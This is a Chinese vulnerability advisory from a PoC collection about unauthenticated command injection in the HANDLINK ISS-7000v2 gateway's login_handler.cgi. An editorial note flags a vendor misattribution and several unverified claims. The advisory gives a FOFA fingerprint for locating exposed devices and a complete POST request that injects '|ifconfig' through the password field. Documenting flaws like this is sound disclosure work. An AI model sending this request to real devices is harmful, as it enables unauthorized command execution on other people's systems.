

# HANDLINK ISS-7000v2 网关 login_handler.cgi 未授权RCE漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：HANDLINK瀚霖ISS-7000v2，非D-Link
- 本文讨论：login_handler.cgi password命令拼接
- 版本、权限与配置前提：固件1.00.06/1.00.08，登录请求可达
- 资料类型：网关登录命令注入复现；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 明确厂商误归D-Link目录
- 无文本执行响应，admin前缀是否有效凭据前提需核
- 在野已知/影响广无来源；修复无构建，FOFA元数据残缺
- 已落实的文本修订：残缺指纹退出可执行索引并保留原值。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 执行文中载荷可能以目标进程权限启动命令或加载代码；权限受认证角色、操作系统账户及依赖版本约束，不能把 root/200 等通用字符串当成功证据

### 待核与来源

- 是否真预认证、CVE/原研究及修复待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


# 漏洞描述

瀚霖科技股份有限公司ISS-7000 v2网络网关服务器 /login_handler.cgi接口存在远程命令执行漏洞，未经身份验证的远程攻击者可利用此漏洞执行任意系统命令，写入后门文件，获取服务器权限。

# 影响版本

ISS-7000 v2固件版本1.00.06 、1.00.08

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：icon_hash="-842942564"

POC/EXP：

```
POST /login_handler.cgi HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 6.2) AppleWebKit/532.1 (KHTML, like Gecko) Chrome/41.0.887.0 Safari/532.1
Content-Type: application/x-www-form-urlencoded
Connection: close

username=admin&password=admin|ifconfig&uilng=3&button=%E7%99%BB%E5%85%A5&Signin=
```





# 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
